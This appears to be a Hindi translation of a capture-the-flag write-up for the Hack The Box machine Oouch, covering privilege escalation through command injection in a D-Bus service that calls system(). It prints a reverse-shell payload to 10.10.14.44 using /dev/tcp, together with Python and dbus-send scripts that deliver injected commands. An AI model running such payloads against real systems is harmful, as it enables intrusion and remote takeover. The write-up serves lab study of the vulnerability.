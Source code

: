 डॉकर कंटेनर **aeb4525789d8** के अंदर उपयोगकर्ता **qtc** के रूप में, आप फ़ाइल _/code/oouch/routes.py_ में कुछ dbus से संबंधित कोड पा सकते हैं। यह दिलचस्प कोड है:
```python
if primitive_xss.search(form.textfield.data):
bus = dbus.SystemBus()
block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')

client_ip = request.environ.get('REMOTE_ADDR', request.remote_addr)
response = block_iface.Block(client_ip)
bus.close()
return render_template('hacker.html', title='Hacker')
```
जैसा कि आप देख सकते हैं, यह **D-Bus इंटरफेस से कनेक्ट हो रहा है** और **"Block" फ़ंक्शन** को "client_ip" भेज रहा है।

D-Bus कनेक्शन के दूसरी ओर कुछ C संकलित बाइनरी चल रही है। यह कोड **D-Bus कनेक्शन में IP पते के लिए सुन रहा है और `system` फ़ंक्शन के माध्यम से iptables को कॉल कर रहा है** ताकि दिए गए IP पते को ब्लॉक किया जा सके।\
**`system` को कॉल करना जानबूझकर कमांड इंजेक्शन के लिए संवेदनशील है**, इसलिए निम्नलिखित जैसे एक पेलोड एक रिवर्स शेल बनाएगा: `;bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' #`

### इसका लाभ उठाएं

इस पृष्ठ के अंत में आप **D-Bus एप्लिकेशन का पूरा C कोड** पा सकते हैं। इसके अंदर आप पंक्तियों 91-97 के बीच **कैसे `D-Bus ऑब्जेक्ट पथ`** **और `इंटरफेस नाम`** **पंजीकृत** हैं, यह देख सकते हैं। यह जानकारी D-Bus कनेक्शन में जानकारी भेजने के लिए आवश्यक होगी:
```c
/* Install the object */
r = sd_bus_add_object_vtable(bus,
&slot,
"/htb/oouch/Block",  /* interface */
"htb.oouch.Block",   /* service object */
block_vtable,
NULL);
```
इसके अलावा, लाइन 57 में आप देख सकते हैं कि **इस D-Bus संचार के लिए पंजीकृत एकमात्र विधि** को `Block` कहा जाता है (_**इसलिए अगले अनुभाग में पेलोड को सेवा वस्तु `htb.oouch.Block`, इंटरफेस `/htb/oouch/Block` और विधि नाम `Block` पर भेजा जाएगा**_):
```c
SD_BUS_METHOD("Block", "s", "s", method_block, SD_BUS_VTABLE_UNPRIVILEGED),
```
#### Python

निम्नलिखित पायथन कोड `block_iface.Block(runme)` के माध्यम से `Block` विधि के लिए D-Bus कनेक्शन पर पेलोड भेजेगा (_ध्यान दें कि इसे पिछले कोड के भाग से निकाला गया था_):
```python
import dbus
bus = dbus.SystemBus()
block_object = bus.get_object('htb.oouch.Block', '/htb/oouch/Block')
block_iface = dbus.Interface(block_object, dbus_interface='htb.oouch.Block')
runme = ";bash -c 'bash -i >& /dev/tcp/10.10.14.44/9191 0>&1' #"
response = block_iface.Block(runme)
bus.close()
```
#### busctl और dbus-send
```bash
dbus-send --system --print-reply --dest=htb.oouch.Block /htb/oouch/Block htb.oouch.Block.Block string:';pring -c 1 10.10.14.44 #'
```
- `dbus-send` एक उपकरण है जिसका उपयोग "Message Bus" को संदेश भेजने के लिए किया जाता है।
- Message Bus – एक सॉफ़्टवेयर है जिसका उपयोग सिस्टम द्वारा अनुप्रयोगों के बीच संचार को आसान बनाने के लिए किया जाता है। यह Message Queue से संबंधित है (संदेश क्रम में व्यवस्थित होते हैं) लेकिन Message Bus में संदेश एक सदस्यता मॉडल में भेजे जाते हैं और यह बहुत तेज़ भी होते हैं।
- “-system” टैग का उपयोग यह बताने के लिए किया जाता है कि यह एक सिस्टम संदेश है, न कि एक सत्र संदेश (डिफ़ॉल्ट रूप से)।